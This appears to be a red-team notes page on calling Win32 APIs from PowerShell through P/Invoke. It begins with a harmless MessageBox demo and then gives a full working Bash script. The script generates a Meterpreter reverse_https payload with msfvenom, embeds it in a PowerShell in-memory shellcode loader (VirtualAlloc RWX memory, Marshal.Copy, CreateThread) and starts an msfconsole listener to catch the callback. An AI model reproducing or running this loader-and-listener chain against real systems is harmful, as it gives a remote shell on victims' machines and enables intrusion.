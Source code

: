 ```yaml
---
title: Executing Win32 APIs in PowerShell
tags:
  - breach
  - operations
  - win32api
  - api
  - powershell
  - execution
---
```


We can't execute **Win32API** methods directly from PowerShell. What are
**Win32API** methods? We discuss them in
[[phishing-in-microsoft-office#Calling Win32API|Phishing in Microsoft Office - Calling Win32API]].
These are methods usually implemented in `.dll`s like `kernel32.dll` that you
can usually find in `C:\Windows\System32`.

We can, however, compile and execute C# (CSharp) from PowerShell, and invoke
these methods using the .NET Framework. Using
[Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke),
we can directly reference **Win32API** methods implemented in our target
`.dll`s.

For effective translation of C# types to C/C++ types for parameters defined in
these **Win32API** methods, we can reference helpful documentation provided at
[pinvoke.net](https://www.pinvoke.net/). The following PowerShell script
demonstrates how to invoke **user32.MessageBox** from `user32.dll` using
**P/Invoke** and **C#**:

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text,
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### Executing shellcode in PowerShell

The following example uses the interoperability features described above to
define references to the `VirtualAlloc` and `CreateThread` methods from
`kernel32.dll` . This **Bash** script will generate a **Meterpreter**
`windows/x64/meterpreter/reverse_https` payload directed to callback to a
provided `LHOST` and `LPORT`for the next stage of the **Meterpreter** payload.

The PowerShell shellcode buffer for the **Meterpreter** payload will be placed
into a **PowerShell** script that will call `VirtualAlloc` to allocate an `RWX`
memory segment within the current process. The script will proceed to call
`System.Runtime.InteropServices.Marshal` to copy the shellcode from managed
memory to unmanaged memory - copying our shellcode to the newly created buffer
from the previous `VirtualAlloc` call. Finally, we call `CreateThread`
providing an address to our shellcode payload memory segment to gain shellcode
execution.

After generating our PowerShell payload, we kick off an `msfconsole` session to
listen for our **Meterpreter** payload callback:

```bash
#!/bin/bash

set -ex -o pipefail

MSFPAYLOAD="windows/x64/meterpreter/reverse_https"
MSFCONSOLE=$(which msfconsole)
MSFVENOM=$(which msfvenom)


msfvenom() {
    PAYLOAD=$($MSFVENOM \
        -p $MSFPAYLOAD \
        LHOST=$LHOST \
        LPORT=$LPORT \
        EXITFUNC=thread \
        -f ps1 2>/dev/null)
}


generate_powershell() {
    tee payload.ps1 << EOF
\$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type \$Kernel32

$PAYLOAD

\$size = \$buf.Length

[IntPtr]\$addr = [Kernel32]::VirtualAlloc(0, \$size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy(\$buf, 0, \$addr, \$size)

\$thandle=[Kernel32]::CreateThread(0, 0, \$addr, 0, 0, 0)

[Kernel32]::WaitForSingleObject(\$thandle, [uint32]"0xFFFFFFFF")
EOF
}

listen() {
    $MSFCONSOLE \
        -q \
        -x "use multi/handler; \
            set payload $MSFPAYLOAD; \
            set LHOST $LHOST; \
            set LPORT $LPORT; \
            exploit"
}


LHOST=$1
LPORT=$2

msfvenom
generate_powershell
listen
```
